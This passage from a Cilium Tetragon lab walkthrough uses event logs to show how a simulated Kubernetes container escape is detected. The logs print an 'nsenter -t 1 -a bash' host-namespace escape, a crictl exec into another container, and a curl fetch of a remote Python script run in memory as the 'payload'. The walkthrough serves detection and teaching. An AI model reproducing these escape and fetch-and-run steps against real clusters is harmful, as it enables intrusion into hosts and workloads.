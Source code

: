 
### 🔎 Security Observability events

By using Cilium Tetragon you are able to follow the final movements of the attack.

After about a minute, in the logs in >_ Terminal 2, the process_exec event shows the sensitive curl command with the arguments of https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py:
```
🚀 process kind-control-plane /usr/bin/python              🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 🛑 CAP_SYS_ADMIN
```
You can also identify the sensitive socket connection opened via curl with the following destination IP 185.199.110.133 and port 443:
```
🔌 connect kind-control-plane /usr/bin/curl tcp 10.244.0.5:3745 -> 185.199.108.133:443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/bin/curl tcp 10.244.0.5:3745 -> 185.199.108.133:443 🛑 CAP_SYS_ADMIN
```
While the following process_exit events show the malicious python script execution in memory is finished with exit code 0, which means it was successful:
```bash
💥 exit    kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 0 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/python  0  🛑 CAP_SYS_ADMIN
```

You can now see the payload working.


#### Terminal 1:

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pod sith-infiltrator
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/groups        🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/dircolors -b  🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/groups  0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/dircolors -b 0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/jq -r .containers[0].id 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/jq -r .containers[0].id 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/bash  0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl exec -it 06bebbe843b31977685483f6fc897f45442486ac55bde237399499b6445c4c07 /bin/bash 🛑 CAP_SYS_ADMIN
🔌 connect default/sith-infiltrator /usr/local/bin/crictl tcp 127.0.0.1:16539 -> 127.0.0.1:44425 🛑 CAP_SYS_ADMIN


```
